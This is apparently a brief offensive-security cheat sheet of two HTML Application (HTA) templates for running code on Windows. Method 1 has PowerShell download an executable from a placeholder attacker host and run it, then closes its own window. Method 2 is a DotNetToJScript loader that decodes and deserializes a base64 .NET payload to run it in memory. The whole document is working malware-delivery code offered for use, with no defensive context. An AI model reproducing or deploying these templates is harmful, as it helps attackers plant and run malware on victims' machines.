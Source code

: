 ## **Create_HTA_file**

#### Method 1:
```javascript
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var res = shell.Run("powershell iwr -uri http://IP:PORT/file.exe -outfile
C:\\path\\to\\file.exe;C:\\path\\to\\file.exe");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```
<br>

#### Method 2:
```javascript
<html>
<head> 
<script language="JScript"> 
function setversion() {
new ActiveXObject('WScript.Shell').Environment('Process')('COMPLUS_Version') = 'v4.0.30319';
}
function debug(s) {}
function base64ToStream(b) {
    var enc = new ActiveXObject("System.Text.ASCIIEncoding");
    var length = enc.GetByteCount_2(b);
    var ba = enc.GetBytes_4(b);
    var transform = new ActiveXObject("System.Security.Cryptography.FromBase64Transform");
    ba = transform.TransformFinalBlock(ba, 0, length);
    var ms = new ActiveXObject("System.IO.MemoryStream");
    ms.Write(ba, 0, (length / 4) * 3);
    ms.Position = 0; 
    return ms;

}

var serialized_obj= "OUTPUT_OF_DOTNETTOJSCRIPT";
var entry_class = 'TestClass';

try { 
        setversion(); 
        var stm = base64ToStream(serialized_obj); 
        var fmt = new ActiveXObject('System.Runtime.Serialization.Formatters.Binary.BinaryFormatter'); 
        var al = new ActiveXObject('System.Collections.ArrayList'); 
        var d = fmt.Deserialize_2(stm); al.Add(undefined); 
        var o = d.DynamicInvoke(al.ToArray()).CreateInstance(entry_class);
} catch (e) { 
    debug(e.message); 
}
</script>
</head>
```
